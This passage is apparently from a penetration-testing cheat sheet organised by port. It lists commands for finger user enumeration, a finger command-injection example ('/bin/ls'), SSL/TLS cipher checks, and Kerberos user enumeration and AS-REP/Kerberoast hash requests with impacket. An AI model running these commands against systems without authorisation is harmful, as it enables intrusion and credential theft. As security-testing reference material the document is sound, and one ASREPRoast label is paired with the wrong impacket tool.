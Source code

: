 ```
$ finger-user-enum.pl -U users.txt -t $ip
```
{% endtab %}

{% tab title="Command Execution" %}
```
#finger “/bin/ls -a /@domain.com”
```
{% endtab %}
{% endtabs %}

## 80/443 - Web&#x20;

{% tabs %}
{% tab title="SSL/TLS" %}
Open a connection

* ```
  $ openssl s_client -connect $ip:443
  ```

Basic SSL ciphers check

* ```
  $ nmap --script ssl-enum-ciphers -p 443 $ip
  ```

Look for unsafe ciphers such as Triple-DES and Blowfish

Very complete tool for SSL auditing is testssl.sh, finds BEAST, FREAK, POODLE, heart bleed, etc...
{% endtab %}
{% endtabs %}

{% content-ref url="../../web-app-hacking/" %}
[web-app-hacking](../../web-app-hacking/)
{% endcontent-ref %}

## 88/464 - Kerberos

<details><summary>Tools and Guides</summary></details>

{% tabs %}
{% tab title="User Enum" %}
```
$ nmap -p88 --script krb5-enum-users --script-args krb5-enum-users.realm=research $ip
```
{% endtab %}

{% tab title="ASREPRoast" %}
```
ASREPRoast:
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

